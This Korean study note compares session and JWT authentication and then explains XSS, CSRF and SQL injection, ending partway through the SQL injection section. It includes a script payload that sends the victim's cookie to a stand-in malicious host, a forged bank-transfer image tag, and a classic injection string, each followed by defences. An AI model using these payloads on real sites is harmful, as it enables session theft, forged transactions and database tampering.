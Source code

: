 최근 서비스들이 JWT보다 세션 방식을 선택하는 이유는  
세션 방식이 상태 저장(stateful) 방식으로,  
서버에서 사용자 정보를 관리하고, 로그아웃 시 세션을 쉽게 무효화할 수 있기 때문이다.  
이로 인해 보안성이 높아진다.  
또한, 세션 방식은 서버가 클라이언트의 상태를 유지할 수 있어서 사용자가 특정 기기에 로그인된 상태를 로그아웃하는 행위가 가능하다.

그렇다면 Authentication되지 않은 사용자가  
Authentication된 사용자의 정보를 탈취 방식은 무엇일까?

<br><br><br>

## 주요 웹 공격 방식

<br>
### XSS(Cross-Site Scripting): 악성 스크립트 삽입 공격
  
XSS는 공격자가 웹 사이트에 악성 스크립트를 삽입하여 사용자 정보를 탈취하는 공격 방식이다.   
공격자는 게시판이나 댓글과 같은 사용자 입력 필드를 통해 악성 스크립트를 삽입할 수 있다.   
사용자가 해당 웹 페이지를 방문하면, 삽입된 스크립트가 실행되어 사용자의 쿠키나 세션 정보를 탈취할 수 있다.  
  
  
```html
<script>document.location='http://malicious-site.com/steal-cookie?cookie=' + document.cookie;</script>
```
  
XSS 공격을 방어하기 위해서는 모든 입력값에 대한 유효성 검사(Validation)를 수행하고,   
출력 시에는 HTML 엔티티 인코딩(HTML Entity Encoding) 또는 이스케이핑(Escaping)을 통해 특수 문자를 안전하게 처리해야 한다.   
Content Security Policy (CSP)를 사용하여 브라우저가 실행할 수 있는 스크립트의 출처를 제한할 수 있다.  
  
<br>
### CSRF(Cross-Site Request Forgery): 위조된 요청 공격
  
CSRF는 사용자가 자신의 의지와는 상관없이 공격자가 의도한 행위(예: 비밀번호 변경, 송금 등)를 수행하도록 만드는 공격이다.   
공격자는 사용자가 로그인한 상태에서 악성 웹 사이트를 방문하도록 유도하여, 사  
용자의 브라우저가 서버에 위조된 요청을 보내도록 한다.   
이로 인해 사용자의 계정이 악용될 수 있다.  
  
```html
<img src="http://bank.com/transfer?amount=1000&to=attacker_account" />
```
  
CSRF 공격을 방어하기 위해 서버는 각 요청에 대해 예측 불가능한 CSRF 토큰을 생성하여 클라이언트에게 전달하고,   
요청을 처리할 때마다 토큰의 유효성을 검사해야 한다.   
SameSite 쿠키 속성을 사용하여 쿠키가 다른 사이트에서 전송되는 것을 방지할 수 있다.  
  
<br>
### SQL Injection: 데이터베이스 조작 공격
  
SQL Injection은 사용자의 입력값을 제대로 검증하지 않아 발생하는 취약점을 이용하여 악의적인 SQL 쿼리를 삽입하여 데이터베이스를 조작하는 공격이다.   
공격자는 입력 필드에 SQL 구문을 삽입하여 데이터베이스의 데이터를 조회, 수정, 삭제하거나 심지어 데이터베이스 서버를 장악할 수도 있다.  
  
```sql
' OR '1'='1
```
  